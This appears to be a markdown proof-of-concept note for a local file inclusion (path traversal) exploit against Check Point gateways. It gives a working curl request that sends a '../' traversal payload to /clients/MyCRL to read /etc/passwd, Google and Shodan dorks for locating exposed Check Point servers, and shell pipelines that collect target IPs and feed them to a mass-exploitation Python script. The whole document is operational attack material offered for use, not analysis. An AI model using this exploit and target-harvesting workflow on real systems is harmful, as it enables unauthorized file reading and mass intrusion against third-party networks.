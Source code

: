 
# PoC LFI

```
curl --path-as-is -i -s -k -X $'POST' \
 -H $'Host: X.X.X.X' -H $'Content-Length: 39' -H $'Connection: keep-alive' \
 --data-binary $'aCSHELL/../../../../../../../etc/passwd' \
 $'https://X.X.X.X/clients/MyCRL'
```

## Google Dork
`title:"Check Point" ssl:"target`

## Shodan Dork
`"Server: Check Point SVN" "X-UA-Compatible: IE=EmulateIE7"`

### Get Data

> Get Shodan Data
`shodan search --fields ip_str,port,org "Server: Check Point SVN" "X-UA-Compatible: IE=EmulateIE7" > search.txt --limit 100`

> Get IPs from search.txt
`awk '{print $1}' search.txt > results.txt`

> Get IPs with  [[HakIP2Host]]
`cat results.txt | hakip2host`

## Python PoC 

> Get valid domains for PoC
`cat results.txt | httpx-toolkit -o results_1.txt`

`python3 exploit.py -l results_1.txt`





